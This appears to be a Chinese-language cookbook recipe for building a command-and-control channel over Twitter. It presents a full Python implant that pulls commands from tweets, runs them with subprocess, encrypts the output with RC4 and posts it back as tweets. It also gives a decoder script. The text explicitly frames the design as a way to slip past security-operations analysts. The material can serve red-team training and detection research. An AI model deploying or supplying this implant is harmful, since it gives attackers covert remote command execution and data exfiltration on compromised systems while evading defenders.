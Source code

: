 # 创建推特 C2

直到某一点，在互联网上请求随机页面是可以通过的，但一旦**安全运营中心**（**SOC**）分析师仔细查看正在消失的所有数据，很明显，这些请求将发送到一个不可靠的站点，因此可能与恶意流量有关。幸运的是，社交媒体在这方面起到了帮助作用，并允许我们将数据隐藏在显而易见的地方。

我们将创建一个脚本，用于连接到 Twitter、读取推文、基于这些推文执行命令、加密响应数据并将其发布到 Twitter。我们还将制作一个解码脚本。

## 开始

为此，您需要一个具有 API 密钥的 Twitter 帐户。

## 怎么做…

我们将使用的脚本如下所示：

```
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time

token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))

while 1:
  user = t.statuses.user_timeline()
  command = user[0]["text"].encode('utf-8')
  key = user[1]["text"].encode('hex')
  enc = ARC4.new(key)
  response = subprocess.check_output(command.split())

  enres = enc.encrypt(response).encode("base64")

  for i in xrange(0, len(enres), 140):
          t.statuses.update(status=enres[i:i+140])
  time.sleep(3600)
```

解码脚本如下所示：

```
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```
